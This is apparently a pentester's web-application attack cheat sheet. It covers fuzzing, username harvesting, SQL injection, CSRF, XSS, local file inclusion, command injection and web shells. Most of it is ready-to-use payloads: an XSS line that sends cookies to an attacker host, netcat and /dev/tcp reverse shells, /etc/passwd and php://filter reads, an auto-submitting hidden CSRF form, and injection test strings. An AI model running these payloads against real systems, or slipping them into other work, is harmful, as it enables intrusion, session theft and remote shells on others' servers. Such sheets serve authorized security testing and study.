 ```yaml
---
title: Attack Execution
category: Web Application
order: 3
---
```


> **Configuration**

Use Recon information to test for vulnerabilities in:
* OS (e.g., Shellshock)
* Webserver (e.g., heartbleed)
* Application Server Misconfiguration (e.g., admin portal, phpinfo)
* FrontEnd Frameworks (e.g., jQuery, MooTools) - look at wappalizer, src, and xmlhttprequests

> **Forced Browseing and Content Discovery**

ZAP:
* Tools -> options -> forced browse and verify options
* Right click -> attack ->  forced browse

Burp (Pro only):
* Right click -> Engagement tools -> Discover Content

> **Fuzzing and Password Guessing**

Burp Fuzzing:
1. Right click on request -> send to intruder
2. Click Posistion -> select attack type based on attack (e.g., number of posistions, combination)
3. Select Posistions 
4. Click Payloads -> select appropriate payload
5. Click Options -> Verify Grep (what you are looking for)
6. Sort on the field you were grepping for

ZAP Fuzzing (best for timing based attacks):
1. Send a request that has the posistions you want to fuzz (right click on request -> tailor -> resend)
2. Right click on request -> fuzz
3. Highlight text you want to fuzz
4. Click add -> select payload
5. Repeat for number of fields to fuzz
6. Click start fuzz
7. Sort on relevant field

Fuzzing Payloads:
* fuzzdb
* jbro fuzz
* wraph

Passwords:
* [Seclist](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
* [Weakpass](https://weakpass.com/)
* [crackstation](https://crackstation.net/)
* [Hashcat Hob0Rules](https://github.com/praetorian-inc/Hob0Rules)


> **Directory Browsing**

Test for Directory Browsing:
1. Navigate to directories and look for local file references (for NGINX and Apache try www.site.com/images)
2. Google site:gov intitle:""Index of"" ""last modified""
3. CVEs for leakage based on recon

Tools:
* Google Hacking Database
* dirb
* dirbuster
* [fuzzdb](https://github.com/fuzzdb-project/fuzzdb)
* jbrofuzz
* wmap
* Nikto
* w3af
* ZAP
* Metasploit WMAP
* Metasploit msfcrawler

> **Username Harvesting**
1) Use company website, email, google, linked-in, Facebook, Twitter to find potential usernames 
2) Find Lists:
	* [skullsecurity](https://downloads.skullsecurity.org/passwords/):ron facebook usernames census
	*[SecList](https://github.com/danielmiessler/SecLists/tree/master/Usernames) 
3) Test a valid username vs invalid in login, password reset, create user pages:
	* Look for different HTML 
	* Look for different response variables
	* Look for differences in the url
	* Look for differences in form fields (e.g., Username field)
	* Look for iming differences in response time [calculating hashin](https://littlemaninmyhead.wordpress.com/2015/07/26/account-enumeration-via-timing-attacks/) 
3) Fuzz using Burp or Zap

> **SQL Injection: Test Strings**

{% highlight bash %}
' ` " ; /* --
{% endhighlight %}

> **SQL Injection: Database Identification**

Oracle | ORA-01756: quoted string not properly terminated
MS SQL Server | Incorrect syntax near 'something'
PostgreSQL | 5-digit Hex Error Code

> **CSRF**

GET:
{% highlight html %}
<img src="http://<ip_of_site>/form.php?<parameter>=<value>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

> **XSS**

Get Cookie:
{% highlight html %}
<script>document.location='http://[AttackerIP]/cgi-bin/grab.cgi?'+docment.cookie;</script>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}



> **XSS Test Strings**

{% highlight html %}
'';!--"<XSS>=&{()}
{% endhighlight %}

{% highlight html %}
<script>alert(document.cookie);</script>

<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>

<script src=http://www.example.com/malicious-code.js></script>

%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e

\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e

>"><script>alert("XSS")</script>&

"><STYLE>@import"javascript:alert('XSS')";</STYLE>

<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert('XSS')>

<IMG SRC=JaVaScRiPt:alert('XSS')> 

<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>

<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">

<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">

<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">

{% endhighlight %}



> **Local File Include**

{% highlight bash %}
#Automated Tool
fimap -u 'http://website/?p=file.html'

#Test for Local File Include
http://website/?p=file%3a%2f%2f%2fetc%2fpasswd

#Grab data
http://website/?p=php://filter/convert.base64-encode/resource=/etc/php/7.0/apache2/php.ini
http://utilities.snrt.io/?p=php://filter/convert.base64-encode/resource=index.php

#Rebuild Base64 file (e.g.,executable)
base64 -d extractedBase64File > executable2
curl -s "http://localhost/ex1.php?page=php://filter/convert.base64-encode/resource=index" | base64 -d

{% endhighlight %}

> **Command Injection**
{% highlight bash %}
#Commix Automated Tool
commix --level=3 --url="http://website/?arg=INJECT_HERE&arg2=argument" 
python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=INJECT_HERE&submit=submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"


#Test Strings
test`pwd`
test$(pwd)
test; pwd
test | pwd
test && pwd
{% endhighlight %}

> **Blind Command Injection**

{% highlight bash %}
#Attacker Machine
tcpdump -n host <webserver IP> and ICMP
nc -l [port]
#Victim
test; ping -c 4 <yourAttackerIP>; echo hello 
test; /bin/nc [YourAttackerIP] [port] -e /bin/bash; echo hello
#Alternative to NC for non-debian based distrobutions
/bin/bash -i > /dev/tcp/[AttackerIP]/[attackerport] 0<&1 2>&1 

#Sleep method
http://ci.example.org/blind.php?address=127.0.0.1 && sleep 10
{% endhighlight %}

> **Web Shells**

Kali: 

PHP | <code> /usr/share/webshells/php/ </code>
PERL | <code> /usr/share/webshells/perl/ </code>
Cold Fusion | <code> /usr/share/webshells/cfm/ </code>
ASP | <code> /usr/share/webshells/asp/ </code>
ASPX | <code> /usr/share/webshells/aspx/ </code>
JSP | <code> /usr/share/webshells/jsp/jsp-reverse.jsp </code>

Online:

* [PHP and Perl](http://pentestmonkey.net/category/tools/web-shells)
* [Bash, PHP, Netcat, Telnet, Perl, Ruby, Java, Python, Gawk](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

> **Useful Resources**

* [MongoDB](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [Command Injection](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [Fuzzing List](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [XSS, SQL, LDAP, XPATH, XML Injection Test Strings](https://www.owasp.org/index.php/OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors)
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [XSS Examples](http://www.xssed.com/)
* [SQL Injection](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
* [Informix, MSSQL, Oracle, MySQL, Postgres, DB2, Ingres SQL Injection Cheat Sheet](http://pentestmonkey.net/category/cheat-sheet)
* [Access Injection Cheat Sheet](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)
[Commix](http://www.kitploit.com/2015/04/commix-automated-all-in-one-os-command.html)
[LFI Cheat Sheet](https://highon.coffee/blog/lfi-cheat-sheet/)
[CGI-Bin](https://www.hellboundhackers.org/articles/read-article.php?article_id=7)

> **Useful Tools**
* [SQLMap](http://sqlmap.org)

